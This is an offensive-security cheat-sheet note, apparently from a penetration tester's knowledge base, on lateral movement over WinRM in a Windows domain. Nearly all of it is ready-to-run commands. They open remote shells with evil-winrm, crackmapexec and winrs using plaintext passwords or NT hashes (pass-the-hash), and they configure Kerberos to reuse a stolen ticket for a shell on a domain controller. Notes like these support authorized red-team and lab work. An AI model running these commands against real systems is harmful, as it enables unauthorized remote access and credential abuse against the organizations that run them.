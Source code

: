 ```yaml
---
title: WinRM Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/winrm]].

Establish a connection.

=== "[[notes/tools/evil-winrm]]"
    ~~~ bash
    evil-winrm -u jdoe -p 'passw0rd' -i srv01.corp.local
    evil-winrm -u jdoe -H $nthash -i srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec winrm srv01.corp.local -u jdoe -p 'passw0rd' -x 'whoami /all'
    ~~~

=== "builtin"
    ~~~ bat
    winrs.exe -r:srv01.corp.local cmd
    winrs.exe -r:srv01.corp.local "cmd /c hostname && whoami"
    ~~~

[[notes/ad/pass-the-ticket]] to WinRM.

=== "[[notes/tools/evil-winrm]]"
    ~~~ bash
    export KRB5CCNAME=$PWD/jdoeadm.ccache
    cat << EOF | sudo tee /etc/krb5.conf > /dev/null
    [realms]
        corp.local = {
            kdc = DC01.corp.local
            admin_server = corp.local
        }
    EOF
    evil-winrm -r corp.local -i DC01.corp.local
    ~~~

> **Note:** In one instance `evil-winrm` could not use the TGT from `ceritpy auth`, but the TGT from `pkinittools-gettgtpkinit` worked.

Untested tools:

- [pywinrm](https://github.com/diyan/pywinrm)
